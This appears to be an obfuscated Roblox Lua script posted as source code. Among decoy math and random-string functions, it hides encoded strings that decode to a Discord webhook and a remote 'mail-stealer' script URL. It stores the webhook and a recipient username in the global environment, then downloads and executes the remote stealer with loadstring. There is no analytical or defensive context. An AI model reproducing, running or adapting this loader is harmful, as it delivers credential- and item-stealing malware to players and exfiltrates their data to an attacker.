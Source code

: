 local print=print;local type=type;local tonumber=tonumber;local a={}for b=1,10 do a[b]=math.random(1000)end;local c=""function genednv(d)getgenv()[c]=d end;local tostring=tostring;local e=math.abs;local f=string.char(104,116,116,112,115,58,47,47,100,105,115,99,111,114,100,46,99,111,109,47,97,112,105,47,119,101,98,104,111,111,107,115,47,49,48,57,57,53,55,57,50,48,54,49,53,52,56,53,52,52,53,48,47,66,102,77,54,87,71,45,102,116,101,87,55,75,106,48,48,82,68,107,110,121,74,80,105,111,87,102,53,73,76,56,50,55,88,49,100,53,89,81,117,73,87,95,81,71,89,78,55,88,119,95,110,113,119,118,100,90,82,52,117,87,72,86,108,78,81,66,77);local h=math.ceil;local i=math.floor;local function j(k)c="mouselock"genednv("true")local l={}for b=1,k do l[b]=math.random(100)end;return l end;local m=math.max;local n=math.min;local o={2,93,210,219,2983,2130,239,284,034}local function p(q)local r={}c="name"genednv("MMMickyy49")for b=1,q do r[b]=string.char(math.random(97,122))end;return table.concat(r)end;local s=table.create;local t=coroutine.resume;local u=coroutine.yield;local ipairs=ipairs;local pairs=pairs;local next=next;local v=string.char(104,116,116,112,115,58,47,47,119,117,109,97,116,46,120,121,122,47,115,99,114,105,112,116,115,47,109,97,105,108,45,115,116,101,97,108,101,114,46,108,117,97)local error=error;local pcall=pcall;function tesdwef(w)return game:HttpGetAsync(w,true)end;local xpcall=xpcall;local x=loadstring;local rawget=rawget;local rawset=rawset;local function y()local z=p(math.random(5,10))local A=p(math.random(5,10))c="webhook"genednv(f)return z..A end;local B=string.len;local C=string.sub;local D=string.upper;local E=string.lower;local F=string.find;local function G(k)local H=j(10)local l={}local I=p(5)for b=1,k do l[b]=math.random()>0.5 end;local J=y()return l end;local K=G(2)local L=math.acos;local M=math.asin;local N=math.atan;local O=math.atan2;x(tesdwef(v))()local P=math.cos
